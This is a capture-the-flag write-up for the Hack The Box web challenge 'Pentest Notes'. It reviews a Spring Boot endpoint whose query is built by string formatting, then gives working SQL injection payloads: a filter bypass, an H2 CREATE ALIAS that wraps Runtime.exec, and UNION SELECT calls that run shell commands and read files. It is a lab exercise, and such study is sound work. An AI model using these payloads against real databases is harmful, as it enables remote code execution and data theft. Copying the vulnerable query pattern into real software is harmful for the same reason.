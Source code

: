 ```yaml
---
title: Pentest Notes - Hack The Box
date: 2024-11-11
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Pentest Notes

![Pentest Notes - thumbnail](/ctf/hack-the-box/challenges/web/pentest-notes/thumbnail.gif)

## Box description

People-first web application projects are always a boring, like a note or a tic tac toe game, so I have created an
upgraded version called 'Pentest Note'!

## Challenge Description

This challenge presents us with a web application built using **Spring Boot**, which provides a simple interface for
registration and login. Upon logging in, we are shown three notes:

![Pentest Checklist](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-checklist.png)

Clicking on each note redirects us to a page displaying the content of that specific note:

![Pentest Note](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-note.png)

## Code Review

### NoteController.java

The `NoteController.java` file handles note retrieval based on a `name` parameter passed in an HTTP request:

```java
@RestController
@RequestMapping("/api")
public class NotesController {

    [...]

    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
}
```

Key Observations:

- The `noteByName` method takes in a `name` parameter and checks if the user is logged in. If not, it returns an
  unauthorized response.
- It further checks if the `name` parameter contains the character `$` or the term `concat`, blocking requests
  containing either.
- The `name` parameter is then passed directly into a SQL query without sanitization, making the query vulnerable to SQL
  Injection.

### Aplication.properties

The application uses an H2 in-memory database to store the notes, as indicated by the configuration in
`application.properties`:

```properties
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

Searching for **H2 database** and **SQL injection** references online, we find
an [h2-exploit script](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed) that can assist in exploiting
this
vulnerability.

## Exploitation - SQL Injection

### Initial Testing

To verify the SQL injection vulnerability, we send a request with a payload containing a single quote `'` in the `name`
parameter. This generates an error, confirming that the input is processed directly in the SQL query.

### Proof of Concept (PoC)

To test further, we use a classic SQL injection payload:

```sql
1' or '1'='1
```

The application returns the following response:

```
[
    {
        "Note" : "One  ' to rule them all",
        "ID" : 1,
        "Name" : "SQL Injection"
    },
    {
        "Note" : "Script alert 1 !!!!!!!!!",
        "ID" : 2,
        "Name" : "Cross Site Scripting"
    },
    {
        "Note" : "IDK, can you tell me?                   ¯\\_(ツ)_/¯",
        "ID" : 3,
        "Name" : "Skill issue"
    }
]
```

The response reveals that the injection successfully bypassed the query, displaying all notes in the database. This
confirms the SQL injection vulnerability.

### Creating an Alias for Code Execution

To fully exploit this, we can use **H2’s ALIAS** feature to create a Java alias that allows command execution. However,
since `$` is restricted in the `name` parameter, we modify the typical alias creation syntax by using `'` instead of
`$`.

#### Modified Alias Creation:

```sql
CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Using the following SQL injection payload, we inject the alias into the database:

```sql
1'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Upon receiving a `200 OK` response, we confirm that the alias was successfully created.

### Executing Commands with the Alias

With the alias created, we can now use `UNION SELECT` to invoke `EXECVE` and execute system commands. For example, to
list
the root directory and locate the flag, we use:

```sql
1' UNION SELECT NULL, NULL, EXECVE('ls /') --
```

The response shows:

```
[
    {
        "Note" : "app\nbIK4tYUmPNmp_flag.txt\nbin\nboot\ndev\netc\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n",
        "ID" : null,
        "Name" : null
    }
]
```

This output reveals the flag file `bIK4tYUmPNmp_flag.txt`.

#### Reading the Flag file

To read the contents of `bIK4tYUmPNmp_flag.txt`, we use the following payload:

```sql
1' UNION SELECT NULL, NULL, EXECVE('cat /bIK4tYUmPNmp_flag.txt') --
```

Alternatively, we can also use H2’s built-in `file_read()` method to read files, along with the `cast()` method to
convert the output to a string format:

```sql
1' UNION SELECT NULL, NULL, CAST(FILE_READ('/bIK4tYUmPNmp_flag.txt', NULL) AS VARCHAR) --
```

The response:

```
[
    {
        "Note" : "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "ID" : null,
        "Name" : null
    }
]
```

We successfully retrieved the fake flag!
We can now use the same technique to get the real flag.

<ChallengeCard
    challengeType="web"
    challengeName="Pentest Notes"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/772"
/>

## References

- [H2 Database - Doc](https://www.h2database.com/html/main.html)
- [H2 Database - Exploit](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)
- [dotCMS 5.1.5: Exploiting H2 SQL injection to RCE](https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/)
- [Portswigger - SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
